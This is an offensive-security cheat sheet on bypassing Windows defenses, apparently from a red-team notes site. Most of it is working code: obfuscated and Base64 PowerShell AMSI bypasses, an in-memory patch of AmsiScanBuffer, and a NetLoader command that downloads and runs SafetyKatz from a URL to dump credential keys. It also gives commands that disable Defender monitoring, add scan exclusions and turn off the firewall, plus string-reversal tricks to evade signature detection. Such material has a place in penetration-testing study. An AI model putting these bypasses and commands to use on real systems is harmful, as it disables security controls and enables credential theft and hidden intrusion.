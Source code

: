 # Bypass defenses

## AMSI Bypass

### PowerShell AMSI Bypass

{% tabs %}
{% tab title="Obfuscated" %}
{% code fullWidth="false" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
<pre class="language-powershell"><code class="lang-powershell"><strong>[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
</strong></code></pre>
{% endtab %}
{% endtabs %}

### .NET AMSI Bypass

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $ZQCUW

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

### Invisi-Shell

{% embed url="https://github.com/OmerYa/Invisi-Shell" %}

Invisi-Shell bypasses all of PowerShell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking

Usage

```powershell
# With admin privileges:
RunWithPathAsAdmin.bat 

# More Silent
# With non-admin privileges:
RunWithRegistryNonAdmin.bat

# Type exit from the new PowerShell session to complete the clean-up.
exit
```

### Loader

use [`NetLoader` ](https://github.com/Flangvik/NetLoader)to unhook ETW and patch AMSI then run executable from URL without saving

```powershell
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

## Windows Defender

> **Note:** If Tamper protection is enabled you will not be able to turn off Defender by CMD or PowerShell. You can however, still create an exclusion.

Disable real time monitoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Disable scanning for downloaded files (more silent and preferred)

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

Create an exclusion

```powershell
Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```

## Firewall

> **Note:** requires Admin privileges.

Disable using PowerShell

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Disable manually

<figure><img src="../.gitbook/assets/disable-firewall.png" alt=""><figcaption></figcaption></figure>

## AV Signatures Bypass

### AMSITrigger

identify the part of a script is detected

{% embed url="https://github.com/RythmStick/AMSITrigger" %}
AMSITrigger
{% endembed %}

usage

```powershell
AmsiTrigger_x64.exe -i PowerUp.ps1 
```

Example for scanning

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Example for bypassing

<pre class="language-powershell"><code class="lang-powershell"><strong># Reverse the "Net.Sockets" string
</strong>
<strong>$String = "stekcoS.teN"
</strong>$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
if ($Reverse)
{
 $client = New-Object System.$class.TCPClient($IPAddress,$Port)
}
</code></pre>

### DefenderChecker

Identify code and strings from a binary / file that Windows Defender may flag

{% embed url="https://github.com/t3hbb/DefenderCheck" %}
DefenderChecker
{% endembed %}

usage

```powershell
DefenderCheck.exe PowerUp.ps1 
```

To bypass AVs we can either:

* Change only the responsible code that is being flagged as malicious by AMSITrigger/DefenderChecker.
* Obfuscate the whole script - Can use `Invoke-Obfuscation`

### Common measures to bypass AVs

* Remove the comments.
* Modify each use of "DumpCreds".
* Modify the variable names of the Win32 API calls that are detected.
  *

      <figure><img src="https://remnote-user-data.s3.amazonaws.com/Wwmmo3oKy5-CR1Zya71vkYA5TimhjZjZBUgiYb8HCEf-1ZtYxFVCCIWz157UDC37tGhbHNQUVMwwdoDG9rTtQP0n-stkfc3ke7xCKdXeU3mop9y0A8RXlzYGoUjLj-Su.png" alt=""><figcaption></figcaption></figure>
* Reverse the strings that are detected and the Mimikatz Compressed DLL string.
  *

      <figure><img src="https://remnote-user-data.s3.amazonaws.com/fNNoNxgPJSYcucdQ_pzWpzzLHOv3zknRZ_M8LOHoWb88FHVx5qiuznAYLVxOla2MvJIQOp4amEin9E2VRjDcrzDaKmkXUIHVbEBtU7UxoFGFbdBjcUlVc2tk8mlGqMnH.png" alt=""><figcaption></figcaption></figure>
